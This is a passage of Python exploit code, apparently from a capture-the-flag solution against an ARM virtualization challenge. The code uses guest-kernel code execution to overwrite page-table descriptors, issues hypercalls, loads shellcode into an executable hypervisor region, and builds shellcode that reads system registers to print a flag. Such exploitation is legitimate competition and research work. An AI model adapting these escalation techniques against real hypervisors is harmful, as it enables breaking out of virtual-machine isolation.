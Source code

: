 ```python
    assert b"\n" not in shellcode and len(shellcode) < (0x1000 - 0xC)

    VA = 0xFFFFFFFFC0002000
    EL2_RWX = VA + 0xC
    EL1_DESCRIPTOR_TABLE_ADDR = 0xFFFFFFFFC001E010
    EL1_DESCRIPTOR = 0x2443

    TARGET_IPA_DESCRIPTOR = 0x40102000 | 0x443 | 0x80
    IPA_DESCRIPTOR = 0x100000 | 0x443
    IPA = 0x2000 | 0x80
    assert TARGET_IPA_DESCRIPTOR == ((IPA + 0x40000000) | IPA_DESCRIPTOR)
    el1_arbitrary_code_execute(
        f"""
        ldr x0, ={hex(EL1_DESCRIPTOR_TABLE_ADDR)};\n
        mov x1, #{hex(EL1_DESCRIPTOR)};\n
        str x1, [x0];\n
        
        mov x0, #1;\n
        ldr x1, ={hex(IPA)};\n
        ldr x2, ={hex(IPA_DESCRIPTOR)};\n
        hvc 0;\n
        
        ldr x20, ={hex(EL2_RWX)};\n
        mov x21, xzr;\n
        mov x22, #{len(shellcode)};\n
        read_el2_shellcode:
            ldr x0, ={hex(EL1_GET_CHAR)};\n
            blr x0;\n
            strb w0, [x20, x21];\n
            add x21, x21, 1\n
            cmp x21, x22\n
            b.lt read_el2_shellcode;\n
        
        mov x0, #1;\n
        mov x1, #2;\n
        mov x2, #3;\n
        hvc 0;\n
        """
    )

    p.send(shellcode)


def make_print_flag_shellcode(
    print_function: int, buf: int | str = "sp"
) -> str:
    assem = ""
    if isinstance(buf, int):
        assem += f"ldr x0, ={hex(buf)};\n"
    else:
        assem += f"mov x0, {buf};\n"

    shellcode = b""
    shellcode += make_shellcode(assem)
    GET_FLAG = [
        0xD53BFC01,
        0xB9000001,
        0xD53BFC21,
        0xB9000401,
        0xD53BFC41,
        0xB9000801,
        0xD53BFC61,
        0xB9000C01,
```